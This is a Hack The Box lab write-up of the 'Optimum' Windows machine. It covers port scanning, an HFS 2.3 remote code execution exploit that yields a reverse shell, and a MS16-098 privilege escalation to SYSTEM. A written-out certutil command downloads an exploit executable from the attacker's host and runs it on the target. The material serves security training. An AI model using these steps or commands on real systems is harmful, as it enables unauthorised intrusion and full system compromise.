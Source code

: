 # HTB - Optimum

#### Ip: 10.10.10.8
#### Name: Optimum
#### Rating: Easy

----------------------------------------------------------------------

![Optimum.png](../assets/optimum_assets/Optimum.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.8    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:43 CDT
Nmap scan report for 10.10.10.8
Host is up (0.067s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just port 80 open here, lets scan it again but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -sC -sV -T4 10.10.10.8 -p 80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:45 CDT
Nmap scan report for 10.10.10.8
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.95 seconds
```
Cool, looks like Nmap has identified HttpFileServer httpd 2.3 running, and we can confirm that by heading to the site itself:

![hfs.png](../assets/optimum_assets/hfs.png)

Searching for this version in Google we find an RCE that looks promising: https://www.exploit-db.com/exploits/39161

![edb.png](../assets/optimum_assets/edb.png)

### Exploitation

First I'll copy over a copy of nc.exe to my working directory, set up a Python http server, and then update the script with my correct IP and port I'll be listening on. After that I'll use the exploit to transfer nc.exe to the target, and get a reverse shell back on my listener:

![shell.png](../assets/optimum_assets/shell.png)

Nice! That Worked! We can now grab the user.txt flag:

![user_flag.png](../assets/optimum_assets/user_flag.png)

### Privilege Escalation

First I'll transfer over a copy of winPEAS to help with the enumeration for privesc:

![transfer.png](../assets/optimum_assets/transfer.png)

Loking through the results I'm not seeing much. Because I know this is an old machine, I run `systeminfo` to see if I can get any more info:

```text
C:\Users\kostas\Documents>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User

<snip>
```

Googling Microsoft Windows Server 2012 R2 Standard leads me to MS16-098 and I find this exploit: https://www.exploit-db.com/exploits/41020

![edb2.png](../assets/optimum_assets/edb2.png)

I can transfer over the executable with certutil, and simply run it.

```text
C:\Users\kostas\Documents>certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Documents>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami
whoami
nt authority\system
```

Nice! We are now nt authorit\sytem on the target! Lets grab that root.txt flag:

![root_flag.png](../assets/optimum_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------------
